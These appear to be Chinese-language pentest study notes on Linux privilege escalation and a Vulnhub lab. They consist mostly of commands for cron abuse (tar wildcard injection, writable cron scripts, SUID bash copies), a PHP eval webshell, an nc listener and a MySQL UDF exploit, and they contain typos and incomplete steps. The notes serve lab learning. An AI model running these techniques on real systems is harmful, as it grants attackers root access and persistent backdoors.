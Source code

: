 * 计划任务

```shell
# 启动计划任务
vim /etc/crontab
修改内容
Linux 提权本地定时任务安全
#第一种：路径问题（但是没有实现成功）
利用计划任务指向的文件的相对路径解析问题
cat /ect/crontab
# cat后，发现一个程序是相对路径
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/xiaodi/test.sh
chmod +x /home/xiaodi/test.sh 写到用户的文件夹下
/tmp/bash
#第二种：命令问题
利用通配符配合命令参数自定义命令实现提权(本地提权)
不安全定时任务备份命令：
cat /ect/crontab
该文件内容
backup.sh
cd /home/undead/script;tar czf /tmp/backup.tar.gz *

# 执行命令
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/undead/script/test.sh
echo "" > "--checkpoint-action=exec=sh test.sh"  # 执行test.sh
echo "" > --checkpoint=1
然后组合命令执行test.sh
cd /tmp/
./test.sh -p
# 如果不是tar命令，那么其他命令是否支持调用命令的参数
参考的命令
chmod
chown
rsync
tar

##第三种：权限问题
利用方式
注意看
rwxrwxrwx的可执行文件
利用不安全的权限分配操作导致的定时文件覆盖
chmod 777 775 等 所有者 组 其他成员说明
就是给除管理员外分配不安全的权限
打开计划文件，加命令
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```

* 第三方服务

```shell
Linux 提权数据库 MYSQL_UDF-Vulnhub
Vulnhub 某靶机-探针 IP 及端口-利用漏洞获取 web 权限-信息收集-查看数据库配置文件-利用 Mysql 提
权 Linux（Mysql 版本区别同 Windows）
#探针 IP 及端口
nmap 192.168.76.0/24
#利用 phpmailer 漏洞进行修改并反弹
python D:/Myproject/40974.py
nc -lvvp 4444
#写入后门利用菜刀连接方便操作
echo '<?php eval($_POST[x]);?>' >1.php
上传信息收集脚本进行提权信息收集
./LinEnum.sh
翻阅数据库配置文件获取 root 密码
#利用 Mysql 提权 searchsploit
下载 mysql udf poc 进行编译
```